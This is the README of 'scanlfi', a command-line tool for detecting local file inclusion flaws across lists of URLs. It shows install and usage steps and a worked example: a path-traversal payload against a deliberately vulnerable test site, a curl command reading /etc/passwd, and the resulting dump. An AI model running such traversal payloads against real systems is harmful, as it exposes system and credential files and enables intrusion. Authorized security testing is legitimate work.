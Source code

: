 
# SCANLFI

This software will detect lfi on a list of urls.



## Features

- custom payload support
- fast 
- fully automated


## Installation 
`git clone https://github.com/seczoid/scanlfi/ && cd scanlfi`

`go build -o scanlfi main.go`

`chmod +x scanlfi`

`mv scanlfi /usr/bin`


## Usage

`cat urls.txt | scanlfi -p pathtotest.txt -c 100`


-p takes the payloads list, -c takes the concurrency limit. 


## Example


`echo "http://testphp.vulnweb.com/showimage.php?file=" | scanlfi -p pathtotest.txt -c 100`


output: 

[+] Vulnerable: http://testphp.vulnweb.com/showimage.php?file=..%2F..%2Fetc%2Fpasswd



lets confirm using curl.. 


```
curl http://testphp.vulnweb.com/showimage.php\?file\=..%2F..%2Fetc%2Fpasswd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
nobody:x:65534:1002:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
bind:x:104:111::/var/cache/bind:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin

```

ThankYou. Keep hacking

